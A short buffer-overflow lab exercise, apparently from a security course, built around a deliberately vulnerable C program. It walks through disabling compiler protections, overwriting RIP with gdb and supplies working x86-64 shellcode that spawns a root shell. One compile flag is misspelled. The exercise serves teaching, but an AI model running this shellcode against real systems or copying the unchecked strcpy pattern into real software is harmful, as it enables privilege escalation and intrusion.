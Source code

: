 
## Exercise 1

Consider the following `overflow.c` code:

```C
#include <string.h>

int overflow(char* input){
  char buf[25];
  strcpy(buf, input);
  return 1;  
}

int main(int argc, char** argv){
  overflow(argv[1]);
  return 1;
}
```
- Compile the code disabling every security measure, with the command:
  - `gcc -m64 -fno-stack-protector -zexecstac -no-pie -Wl,-z,norelro overflow.c`
- Enter in a `gdb` session for the binary, run the `checksec` command to check the security measures
  - Is the stack an executable region? Are addresses randomized?
- Generate a pattern of 200 bytes with `pattern create 200`, we will use this to overwrite the `RBP`
  - Set a breakpoint to `strcpy()`, issue the input pattern with `r '[paste_patern]'`
  - Inspect the `RBP` register, get the offset value with `pattern offset [rbp_value]`
  - Add 8 bytes to the offset value, overwrite the `RIP` register with a canonical address.
    - Hint: the `r` command of `gdb` can take input from shell commands: $(command_here), can you use python to generate the string?
  - After controlling the `RIP`, since the stack is an executable region, we can now execute arbitrary commands directly on-stack.
    - Substitute the test canonical address with the hex-dump of "setuid(0); system("/bin/sh")":
    - ```"\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"```
    - To make the exploit more reliable, you can add 32 "null" instructions (`\x90` symbols) before the shellcode.
  - Make the binary execute a shell as root!
